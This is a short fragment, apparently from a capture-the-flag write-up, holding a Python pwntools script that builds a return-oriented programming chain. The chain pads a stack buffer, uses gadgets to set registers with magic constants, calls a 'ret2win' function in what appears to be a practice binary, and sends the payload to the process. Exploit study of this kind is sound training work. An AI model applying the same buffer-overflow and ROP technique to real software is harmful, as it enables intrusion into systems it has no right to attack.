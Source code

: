 ```python=
_fini = 0x600e48

payload = b'A'*40
payload += p64(pop_rbx_rbp_r12) + p64(0) + p64(0x1) + p64(_fini) + p64(0) + p64(0xcafebabecafebabe) + p64(0xd00df00dd00df00d)
payload += p64(mov_rdx) + p64(0) + p64(0) + p64(0) + p64(0) + p64(0) + p64(0) + p64(0)
payload += p64(pop_rdi) + p64(0xdeadbeefdeadbeef)
payload += p64(ret2win_plt)

#input()
p.sendlineafter(b'> ', payload)

p.interactive()
```
